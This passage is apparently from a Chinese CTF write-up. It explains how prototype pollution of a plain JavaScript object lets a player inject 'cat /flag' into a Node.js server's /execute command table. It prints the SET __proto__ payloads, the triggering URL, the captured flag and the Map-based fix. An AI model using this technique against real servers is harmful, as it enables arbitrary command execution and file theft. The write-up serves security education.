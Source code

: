 _（幸好有关闭环境按钮，不然就死档了）_

我们的请求是通过 JSON 发给服务器的，因而我们无法掉包函数，只能将函数覆盖掉让程序崩溃，所以单单这一点显然还不足以读取 `flag`。不过，程序中还有另一个功能引入注目，那就是输出自己的源代码（下载题目的源代码就是靠这个功能）。

```js
let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});
```

一个简单的读取源代码，为何大动干戈执行 `cat` 实现呢？这里还有一条声称“obviously safe”的滑稽注释，肯定就是突破口了。有没有什么访问链，可以从 `store` 开始访问到 `cmd` 在里面做修改呢？看来并没有。

注：有一种访问上层的方式是通过 `caller`，但是 `caller` 在这种情况下没法用，并且根据文档，`caller` 访问不到全局作用域。

但是，再仔细观察可以发现，这里的 `cmds` 作为字典，犯了同样的错误。`cmds` 也会继承 `Object` 的原型，因此只需要在原型里安装大↓炮就行了。

<a name="really-redundant"></a>

```plain
SET
    constructor.name.__proto__.split.__proto__.__proto__.ccb
    cat /flag
```

然后执行 `ccb` 命令。

```plain
https://chal03-[redacted].hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=ccb
```

flag 就显示出来了。

当然，上面这个多此亿举了。只要直接访问 `{}` 的原型就行了。

```plain
SET
    __proto__.ccb
    cat /flag
```

### Flag

```plain
flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_6b7c4a8816}
```

No protopoil(?)! So use `new Map` instead of object to KV.

在有 `Map` 之前，另外一种方式是 `null` 原型对象，不会继承任何属性，包括 `__proto__`。可以这样创建：
